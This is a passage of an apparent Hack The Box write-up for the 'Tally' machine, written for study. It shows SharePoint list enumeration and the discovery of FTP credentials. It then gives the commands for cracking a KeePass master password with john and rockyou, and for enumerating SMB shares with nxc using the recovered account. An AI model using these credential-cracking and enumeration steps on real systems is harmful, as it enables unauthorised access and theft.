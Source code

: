 Visiting the site pages directory, we find this:

![image.png]({{ site.baseurl }}/assets/tally/image%202.png)

We also know we can see the Site Contents by visiting viewlsts.aspx:

```bash
http://tally/_layouts/15/viewlsts.aspx
```

![image.png]({{ site.baseurl }}/assets/tally/image%203.png)

We click on Documents, and we download a file called ftp-detail.docx:

```bash
FTP details
hostname: tally
workgroup: htb.local
password: UTDRSCH53c"$6hys
Please create your own user folder upon logging in
```

Let’s log in to ftp:

```bash
ftp TALLY

ftp_user:UTDRSCH53c"$6hys
```

There are a lot of files here. In User/Tim, we find a keepass file. Let’s convert it to john and attempt to crack the master password. 

```bash
keepass2john tim.kdbx > tim.john
john --wordlist=/usr/share/wordlists/rockyou.txt tim.john

simplementeyo    (tim)
```

Let’s see if there are any passwords saved:

![image.png]({{ site.baseurl }}/assets/tally/image%204.png)

```bash
Finance:Acc0unting
```

Maybe this is a valid domain account. Let’s check:

```bash
nxc smb 10.10.10.59 -u Finance -p Acc0unting --shares

SMB         10.10.10.59     445    TALLY            [*] Windows 10 / Server 2016 Build 14393 x64 (name:TALLY) (domain:TALLY) (signing:False) (SMBv1:True)
SMB         10.10.10.59     445    TALLY            [+] TALLY\Finance:Acc0unting 
SMB         10.10.10.59     445    TALLY            [*] Enumerated shares
SMB         10.10.10.59     445    TALLY            Share           Permissions     Remark
SMB         10.10.10.59     445    TALLY            -----           -----------     ------
SMB         10.10.10.59     445    TALLY            ACCT            READ            
SMB         10.10.10.59     445    TALLY            ADMIN$                          Remote Admin
SMB         10.10.10.59     445    TALLY            C$                              Default share
SMB         10.10.10.59     445    TALLY            IPC$            READ            Remote IPC

```
